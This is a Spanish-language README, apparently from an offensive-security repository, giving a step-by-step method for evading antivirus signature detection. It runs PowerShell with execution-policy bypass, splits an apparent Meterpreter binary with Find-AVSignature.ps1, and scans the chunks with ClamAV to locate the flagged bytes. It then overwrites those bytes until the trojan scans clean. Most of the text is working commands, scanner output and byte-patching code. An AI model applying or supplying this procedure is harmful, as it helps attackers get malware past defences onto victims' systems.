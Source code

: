 Uno de los métodos de detección de los AV se basan en las firmas de los ficheros; AV Signature Detection.
Este método de detección se basa en que existe un 'byte string' asociado a actividad maliciosa y si es detectado dentro de un fichero este es detectado como malicioso.

Una de las solucciónes que se aporta en este repositorio, consiste en:

- Intentar hacernos con una versión del antivirus que corre en la máquina objetivo.

- Realizar una partición del binario con *Find-AVSignature.ps1* module, el cual puede ser encontrado en este mismo repositorio con el siguiente comando.

    ```
    C:\Users\Offsec>powershell -ep bypass
    Windows PowerShell
    Copyright (C) Microsoft Corporation. All rights reserved.

    PS C:\Users\Offsec> Import-Module .\Find-AVSignature.ps1

    PS C:\Tools> Find-AVSignature -StartByte 0 -EndByte max -Interval 10000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest1 -Verbose -Force
    ```

- El comando anterior pasa los siguientes parámetros al Find-AVSignature:
    
    -> **StartByte**; El byte a comenzar el split.
    -> **EndByte**; El byte a finalizar el split.
    -> **Interval**; La cantidad de bytes que contendrá cada partición.
    -> **Path**; El binario a partir.
    -> **OutPath**; El directorio sobre el que mandar los ficheros que contendrán cada partición.
    -> **Verbose**; Exponer información por la terminal.
    -> **Force**; Ignorar errores.

- De esta forma, se generan un conjunto de ficheros en C:\Tools\avtest1 y se pasa ese directorio para ser escaneado por el antivirus de turno:

    ```
    PS C:\Program Files\ClamAV> .\clamscan.exe C:\Tools\avtest1
    LibClamAV Warning: **************************************************
    LibClamAV Warning: ***  The virus database is older than 7 days!  ***
    LibClamAV Warning: ***   Please update it as soon as possible.    ***
    LibClamAV Warning: **************************************************
    C:\Tools\avtest1\met_0.bin: Empty file
    C:\Tools\avtest1\met_10000.bin: OK
    C:\Tools\avtest1\met_20000.bin: Win.Trojan.Swrort-5710536-0 FOUND
    C:\Tools\avtest1\met_30000.bin: Win.Trojan.Swrort-5710536-0 FOUND
    C:\Tools\avtest1\met_40000.bin: Win.Trojan.Swrort-5710536-0 FOUND
    C:\Tools\avtest1\met_50000.bin: Win.Trojan.Swrort-5710536-0 FOUND
    C:\Tools\avtest1\met_60000.bin: Win.Trojan.Swrort-5710536-0 FOUND
    C:\Tools\avtest1\met_70000.bin: Win.Trojan.Swrort-5710536-0 FOUND
    C:\Tools\avtest1\met_73801.bin: Win.Trojan.Swrort-5710536-0 FOUND
    ```

- Ahora, se entiende que la detección comienza en el fichero 20000.bin, es decir, en algún byte de entre los 10000 y los 20000 bytes, así, se repite la partición anterior acotando a ese intervalo el split:

    ```
    PS C:\Tools> Find-AVSignature -StartByte 10000 -EndByte 20000 -Interval 1000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest1 -Verbose -Force
    ```

    Observemos que hemos reducido en una unidad de medida el tamaño del intervalo de 10000 a 1000. 

- Así, siguiendo con estas iteraciones y acotando sucesivamente los intervalos de detección llegaremos a un punto en el que detectemos exactamente cuál es el byte que provoca el error:

    ```
    PS C:\Program Files\ClamAV> .\clamscan.exe C:\Tools\avtest5
    C:\Tools\avtest5\met_18860.bin: OK
    C:\Tools\avtest5\met_18861.bin: OK
    C:\Tools\avtest5\met_18862.bin: OK
    C:\Tools\avtest5\met_18863.bin: OK
    C:\Tools\avtest5\met_18864.bin: OK
    C:\Tools\avtest5\met_18865.bin: OK
    C:\Tools\avtest5\met_18866.bin: OK
    C:\Tools\avtest5\met_18867.bin: Win.Trojan.Swrort-5710536-0 FOUND
    C:\Tools\avtest5\met_18868.bin: Win.Trojan.Swrort-5710536-0 FOUND
    C:\Tools\avtest5\met_18869.bin: Win.Trojan.Swrort-5710536-0 FOUND
    C:\Tools\avtest5\met_18870.bin: Win.Trojan.Swrort-5710536-0 FOUND
    ```

    En este caso se ve que el bytestring que provoca el signature comienza por el byte 18867.

- Ahora, alteramos este byte (o su precedente o su consecuente) con el siguiente código en powershell.

    ```powershell
    $bytes  = [System.IO.File]::ReadAllBytes("C:\Tools\met.exe")
    $bytes[18867] = 0
    [System.IO.File]::WriteAllBytes("C:\Tools\met_mod.exe", $bytes)
    ```

- Y repetimos el último paso del proceso anterior con el binario met_mod.exe:

    ```powershell
    PS C:\Program Files\ClamAV> Find-AVSignature -StartByte 18860 -EndByte 18870 -Interval 1 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest4 -Verbose -Force
    ```

    Y lo analizmos con el antivirus de turno, **si encontramos que no se ha soluccionado la detección, probamos a cambiar el byte precedente o el consecuente**.

- Este algoritmo de supressión de firmas se repite otra vez hasta que todas las particiones que conformen el binario salgan limpias, pueden aparecer uno o varios bytes strings que provoquen una alerta. Cada byte se incorpora al binario a través de powershell, por ejemplo;

    ```powershell
    $bytes  = [System.IO.File]::ReadAllBytes("C:\Tools\met.exe")
    $bytes[18867] = 0
    $bytes[18987] = 0
    ...
    [System.IO.File]::WriteAllBytes("C:\Tools\met_mod.exe", $bytes)
    ```

- Cuando todas las entradas de met_mod.exe salgan limpias, entonces se modifica el último byte del binario con el hexadecimal 0xFF, en este caso:

     ```powershell
    $bytes  = [System.IO.File]::ReadAllBytes("C:\Tools\met.exe")
    $bytes[18867] = 0
    $bytes[18987] = 0
    $bytes[73801] = 0xFF
    [System.IO.File]::WriteAllBytes("C:\Tools\met_mod.exe", $bytes)
    ```

- Y probamos el binario completo modificado en el antivirus.

    ```
    PS C:\Program Files\ClamAV> .\clamscan.exe C:\Tools\avtest14
    C:\Tools\avtest14\met_mod.exe: OK
    ```

**Es importante añadir que aunque este método bypasse correctamente la detección mediante firmas del AV, puede dejar inutilizado el binario y en ese caso, se debe de probar con otro método de bypass de detección**